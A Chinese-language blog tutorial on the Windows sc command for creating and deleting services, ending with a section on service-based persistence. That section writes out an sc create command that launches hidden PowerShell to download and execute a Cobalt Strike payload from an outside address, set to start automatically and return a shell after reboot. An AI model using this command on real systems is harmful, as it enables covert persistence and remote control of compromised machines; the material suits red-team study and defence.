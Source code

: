 # Windows sc命令与权限维持


`sc`命令用来创建和删除windows服务

#### 使用SC命令创建windows服务

**命令格式：**

```bash
sc [servername] create Servicename [Optionname= Optionvalues]
```

```bash
# servername
可选，可以使用双斜线，如\\\\myserver，也可以是\\\\192.168.0.1来操作远程计算机。如果在本地计算机上操作就不用添加任何参数。

# Servicename
在注册表中为service key制定的名称。注意这个名称是不同于显示名称的（这个名称可以用net start和服务控制面板看到），而SC是使用服务键名来鉴别服务的。

# Optionname
这个optionname和optionvalues参数允许你指定操作命令参数的名称和数值。注意，这一点很重要在操作名称和等号之间是没有空格的。
如果你想要看每个命令的可以用的optionvalues，你可以使用sc command这样的格式。这会为你提供详细的帮助。

# Optionvalues
为optionname的参数的名称指定它的数值。有效数值范围常常限制于哪一个参数的optionname。如果要列表请用sc command来询问每个命令。
```



示例：

```bash
sc create svnservice binpath= "\"D:\Servers\Subversion\bin\svnserve.exe\" --service -r E:\SVN\repository" displayname= "SVNService" depend= Tcpip start= auto  

```

注意：

1. 在`option= xxxxx`格式中，`=`号和后面的内容一定要有空格，如`depend=  Tcpip`

2. 如果命令中的需要进行双引号的嵌套，使用反斜杠加引号 `\"`来进行转义处理。



#### 使用SC命令删除windows服务

从注册表中删除服务子项。如果服务正在运行或者另一个进程有一个该服务的打开句柄，那么此服务将标记为删除。

语法：

```bash
sc [ServerName] delete [ServiceName] 
```

示例：

```bash
sc delete svnservice
```





#### 服务自启动后门

这里使用Cobalt Strike生成了一个powershell的下载后门的payload（菜单栏，Attacks-->Web Drive

-by-->Scaripted Web Delivery，生成powershell后门）

```bash
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" 

sc description Name "Just For Test" # 设置服务的描述字符串 
sc config Name start= auto	 # 设置这个服务为自动启动 
net start Name ``# 启动服务

# 重启服务器后，成功返回一个shell
```



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/windows-sc%E5%91%BD%E4%BB%A4/  

